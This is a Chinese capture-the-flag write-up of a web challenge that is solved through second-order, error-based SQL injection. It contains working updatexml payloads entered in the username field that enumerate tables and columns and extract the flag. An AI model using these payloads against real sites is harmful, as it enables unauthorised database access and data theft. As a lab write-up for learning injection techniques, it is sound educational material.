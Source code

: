 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-5
---
```


## 思路

1. 打开网页，显示可以注册和登录。

   注册是一个写入数据库的过程，登录是查询数据库的过程，所以可以大致推测本题可能存在二次注入。

<img src="images/image-20210106212214557.png" alt="image-20210106212214557" style="zoom:50%;" />

2. 首先测试注册过程是否存在waf，输入如下，会弹出invalid string。

   <img src="images/image-20210106212522917.png" alt="image-20210106212522917" style="zoom:50%;" />

3. 使用bp测试被过滤的字符串，如下：

   <img src="images/image-20210106213526181.png" alt="image-20210106213526181" width="40%;" />

4. username `test\`   然后进入修改密码的页面，可以看到下面的报错提示。

   可以推测后台的sql语句可能为：

   `select * from users where username="" and pwd=""`

   闭合符号为"

<img src="images/image-20210106213702251.png" alt="image-20210106213702251" style="zoom:50%;" />

5. 页面显示了报错信息，说明我们可以尝试报错注入。

   - 获取数据表信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

   - 获取列名信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`

   - 获取flag:

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

     `username=peri0d"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

## 总结

   - 本题的核心是SQL二次注入，是学习SQL二次注入的比较好的例子。
   - 报错型注入
   - 当flag很长时需要两次获取，reverse函数的使用
   - 待完善。。。